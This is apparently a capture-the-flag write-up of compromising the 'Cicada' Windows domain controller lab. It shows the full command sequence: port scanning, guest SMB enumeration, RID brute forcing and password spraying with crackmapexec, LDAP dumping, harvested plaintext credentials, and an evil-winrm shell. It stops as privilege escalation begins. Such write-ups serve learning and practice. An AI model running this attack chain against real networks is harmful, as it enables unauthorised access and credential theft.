 RECON
--
Started Of With Doing a Port Scan  
**nmap $ip -p- -T5 -Pn || rustscan --ulimit 5000 $ip -- -sC -sV -Pn**  
This Returned Me 

    |-53/tcp   open  domain        syn-ack Simple DNS Plus
    |-
    |-88/tcp   open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-09-29 11:34:33Z)
    |-
    |-135/tcp  open  msrpc         syn-ack Microsoft Windows RPC
    |-
    |-139/tcp  open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
    |-
    |-389/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    | 
    |-ssl-date: TLS randomness does not represent time
    | 
    |-445/tcp  open  microsoft-ds? syn-ack
    |
    |-464/tcp  open  kpasswd5?     syn-ack
    |
    |-593/tcp  open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
    |
    |-636/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    |
    |-ssl-date: TLS randomness does not represent time
    |-3268/tcp open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    |
    |-ssl-date: TLS randomness does not represent time
    |
    |-3269/tcp open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
    |-ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
    |-Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:CICADA-DC.cicada.htb
    |-Issuer: commonName=CICADA-DC-CA/domainComponent=cicada
    |-Public Key type: rsa
    |-Public Key bits: 2048
    |-Signature Algorithm: sha256WithRSAEncryption
    |-Not valid before: 2024-08-22T20:24:16
    |-Not valid after:  2025-08-22T20:24:16
    |-MD5:   9ec5:1a23:40ef:b5b8:3d2c:39d8:447d:db65
    |-SHA-1: 2c93:6d7b:cfd8:11b9:9f71:1a5a:155d:88d3:4a52:157a
    |
    |-ssl-date: TLS randomness does not represent time
    |Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
    |
    |-Host script results:
    |-p2p-conficker: 
    |---Checking for Conficker.C or higher...
    |---Check 1 (port 43674/tcp): CLEAN (Timeout)
    |---Check 2 (port 14644/tcp): CLEAN (Timeout)
    |---Check 3 (port 62917/udp): CLEAN (Timeout)
    |---Check 4 (port 13628/udp): CLEAN (Timeout)
    |---0/4 checks are positive: Host is CLEAN or ports are blocked
    |-smb2-security-mode: 
    |----3:1:1: 
    |-----Message signing enabled and required
    |-smb2-time: 
    |---date: 2024-09-29T11:35:22
    |---start_date: N/A
    |-clock-skew: 6h59m59s   

From the Output i could tell this was a Domain Controller inside an active directory enviroment  
There was no website which was weird too see for once  

So As Usual i prioritized SMB first so i did some digging into it  

**smbclient -L \\$ip\\**

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    DEV             Disk      
    HR              Disk      
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    SYSVOL          Disk      Logon server share
Ouput Showed the usual windows shares but HR and DEV were interesting so i started digging more into them  

**smbmap -H $ip -u "guest" -p " "**

    ADMIN$          NO ACCESS       Remote Admin
    C$              NO ACCESS       Default share
    DEV             NO ACCESS
    HR              READ ONLY
    IPC$            READ ONLY       Remote IPC
    NETLOGON        NO ACCESS       Logon server share 
    SYSVOL          NO ACCESS       Logon server share 
i had access to HR through a NULL session, after connecting to it i find one file "Notice from HR.txt"  
Inside this i found a password "Cicada$M6Corpb*@Lp#nZp!8"

From Here i wasnt too sure what i could do since i had no usernames, so finding some usernames was my next goal  
so i tried using kerbrute using some seclists wordlists  

**kerbrute userenum --dc $ip -d cicada.htb <wordlist>**
this returned me nothing other then "administrator" and "guest" which i already knew

so i went to my notes on attacking AD and decided to try RID Brute Forcing with crackmapexec  
**crackmapexec smb $ip -u "guest" -p "" --rid-brute**

        [...snip]
        SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
        SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
        SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
        [...snip]

SHELL AS EMILY.CARLOS
---
and finally i had a list of usernames i could use  
now i can try some password spraying  

**crackmapexec smb $ip -u users.txt -p 'Cicada$M6Corpb\*@Lp#nZp!8' --continue-on-success**

        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
        SMB         10.10.11.35     445    CICADA-DC        [YEP] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
        SMB         10.10.11.35     445    CICADA-DC        [YEP] cicada.htb\Dev:Cicada$M6Corpb*@Lp#nZp!8 
        SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 

Now i had a username to go with the Password, Dev and michael.wrightson  
tho i couldnt login to smb for whatever reason with the creds, i was stuck here for a while    
then finally i decided to try out the creds with ldap, and they worked!  

now i could of used LdapSearch but that would take a while to parse through and check out the data so i just used ldapdomaindump 
**ldapdomaindump $ip  -u "cicada.htb\michael.wrightson" -p 'Cicada$M6Corpb\*@Lp#nZp!8'**

from this it gave me a bunch of data, but i focused on the domain_users.html file which i hosted with python to view    
![image](https://github.com/user-attachments/assets/681402cc-012e-4276-a140-e114888b65bf)

and this gave me the password for the user "david.orelious"

        david.orelious : aRt$Lp#7t*VQ!3
these credentials worked with smb finally and allowed me to access the DEV share

inside the DEV share i found 1 file "Backup_script.ps1", inside this it had plaintext credentials

        emily.carlos : Q!3@Lp#M6b*7t*Vt
more fkn checks, smh  
but finally i got that sexy p3wned on crackmapexec for winrm  

so i finally got a shell using evil-winrm  
**evil-winrm -i $ip -u emily.carlos -p 'Q!3@Lp#M6b\*7t\*Vt'**

EMILY --> ADMIN
--
i was stuck here for a bit since im not very good at windows priv esc yet, but after doing some of the basic checks i noticed i was in the "backup operators" group, and i knew from my studying this could be a powerfull positsion to be in  
so i checked out hacktricks
[HackTrickz Privilaged Groups](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)

